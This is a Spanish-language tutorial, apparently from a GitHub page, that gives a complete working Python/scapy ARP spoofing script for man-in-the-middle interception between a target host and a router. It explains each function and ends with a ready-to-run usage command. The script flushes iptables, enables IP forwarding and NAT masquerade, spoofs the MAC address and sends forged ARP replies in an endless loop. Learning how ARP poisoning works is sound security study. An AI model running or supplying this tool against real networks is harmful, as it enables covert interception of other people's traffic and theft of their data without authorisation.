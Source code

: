Este script realiza un ataque de **ARP Spoofing** con el objetivo de interceptar tráfico entre un host en la red y el enrutador, envenenando la tabla ARP de ambos dispositivos. Este ataque se llama Man In The Middle.

```python
import os
import argparse
import subprocess
import scapy.all as scapy
import time
import signal
import sys
import uuid

from termcolor import colored


def def_handler(sig,frame): 
  print(colored(f"\n[!] Saliendo del programa...\n","red"))
  sys.exit(1)

signal.signal(signal.SIGINT, def_handler) 


def get_arguments(): 
  parser=argparse.ArgumentParser(description="ARP Spoofer")
  parser.add_argument("-t", "--target", required=True,dest="ip_address", help="Host / IP Range to Spoof")
  parser.add_argument("-r","--router", required=True,dest="ip_router",help="Router IP to Spoof")

  return parser.parse_args()


def root(): 
  if subprocess.check_output(["whoami"]).decode().strip() == 'root':
    return True


def requirements(): 
  os.system("iptables --flush")
  os.system("iptables --policy FORWARD ACCEPT")
  os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
  os.system("iptables -t nat -A POSTROUTING -o ens33 -j MASQUERADE")
  os.system("iptables -A FORWARD -i ens33 -j ACCEPT")
  os.system("macchanger ens33 -m aa:bb:cc:44:55:66 >/dev/null")


def spoof(ip_address,spoof_ip):

  arp_packet=scapy.ARP(op=2, psrc=spoof_ip, pdst=ip_address, hwsrc="aa:bb:cc:44:55:66") 
  scapy.send(arp_packet, verbose=False)

def main():
  if root():
    requirements()
    arguments=get_arguments()
    while True: 
      spoof(arguments.ip_address, arguments.ip_router)
      spoof(arguments.ip_router, arguments.ip_address)
      time.sleep(2) 
  else:
    print(colored("\n[!] Este script necesita ser ejecutado por el usuario root.","red"))


if __name__=='__main__':
  main()
```

## 1.**Importaciones**:

- **`os`**, **`argparse`**, **`subprocess`**, **`scapy.all`**: Bibliotecas necesarias para la manipulación del sistema, la gestión de argumentos de la línea de comandos, y el envío de paquetes ARP.
- **`termcolor`**: Para proporcionar color a las salidas del script en la terminal.
- **`signal` y `sys`**: Para gestionar señales como Ctrl+C y salir del script de manera segura.
## 2.`def_handler()`:

- Esta función se ejecuta cuando se interrumpe el programa con **Ctrl+C**.
- Imprime un mensaje y termina el programa con `sys.exit(1)`.
## 3. **Gestión de señal SIGINT**:

- Con **`signal.signal(signal.SIGINT, def_handler)`**, se captura la interrupción **Ctrl+C** y se asocia con la función `def_handler()`.
## 4.`get_arguments()`:

- Gestiona los argumentos que se pasan por línea de comandos, utilizando **`argparse`**.
- Define dos argumentos obligatorios:
    - **`-t` o `--target`**: La dirección IP del host objetivo.
    - **`-r` o `--router`**: La dirección IP del enrutador a envenenar.
## 5.`root()`:

- Comprueba si el script se está ejecutando como **usuario root**, ya que los privilegios de root son necesarios para modificar tablas ARP y realizar redirección de tráfico.
## 6. `requirements()`:

- Configura algunos requisitos previos para que el ataque funcione correctamente:
    1. **`iptables --flush`**: Elimina todas las reglas de iptables existentes.
    2. **`iptables --policy FORWARD ACCEPT`**: Configura la política de reenvío de paquetes a **ACEPTAR**.
    3. **`echo 1 > /proc/sys/net/ipv4/ip_forward`**: Activa el **IP forwarding** para permitir que el sistema reenvíe paquetes entre interfaces.
    4. **`iptables -t nat -A POSTROUTING -o ens33 -j MASQUERADE`**: Permite la traducción de direcciones de red (NAT) para ocultar la IP real del atacante.
    5. **`iptables -A FORWARD -i ens33 -j ACCEPT`**: Acepta todo el tráfico reenviado en la interfaz `ens33`.
    6. **`macchanger ens33 -m aa:bb:cc:44:55:66`**: Cambia la dirección MAC de la interfaz `ens33` a la dirección especificada (en este caso, "aa:bb:cc:44:55:66").
## 7.`spoof()`:

- **Spoofing**: Crea y envía paquetes ARP **falsos** para envenenar la tabla ARP del host objetivo y del enrutador.
- **Paquete ARP**:
    - `op=2`: Indica que es una respuesta ARP (Reply).
    - `psrc`: Indica la dirección IP del enrutador o del host (según el caso) para hacerse pasar por ellos.
    - `pdst`: La dirección IP del objetivo que se desea engañar.
    - `hwsrc`: Es la dirección MAC falsa que se asocia con la IP de origen.
- **`scapy.send()`**: Envía el paquete ARP creado.

## 8.`main()`:

- **Comprobación de root**: Si el script se está ejecutando como root, procede; de lo contrario, imprime un mensaje de error.
- **Configuración del entorno**: Llama a la función `requirements()` para preparar el sistema para el ataque.
- **Bucle infinito de spoofing**: Inicia un bucle que:
    1. Realiza **spoofing** en el host objetivo, haciéndose pasar por el enrutador.
    2. Realiza **spoofing** en el enrutador, haciéndose pasar por el host objetivo.
    3. Espera 2 segundos antes de repetir el proceso.
## 9. **Bloque principal (`if __name__ == '__main__':`)**:

- Inicia la ejecución de la función `main()` si el script se ejecuta directamente.
### **Funcionamiento del Ataque ARP Spoofing**:

1. **El atacante se hace pasar por el enrutador** para el host objetivo, y viceversa:
    - El host objetivo enviará sus paquetes al atacante creyendo que es el enrutador.
    - El enrutador enviará sus paquetes al atacante creyendo que es el host objetivo.
2. **IP Forwarding** está habilitado** para que el atacante pueda redirigir los paquetes entre el enrutador y el host objetivo, manteniendo la conexión establecida pero interceptando y leyendo los datos.
### **Ejemplo de uso**:

	sudo python3 arp_spoofer.py -t 192.168.1.10 -r 192.168.1.1
	
Este comando inicia el **spoofing** entre el host con IP `192.168.1.10` y el enrutador `192.168.1.1`.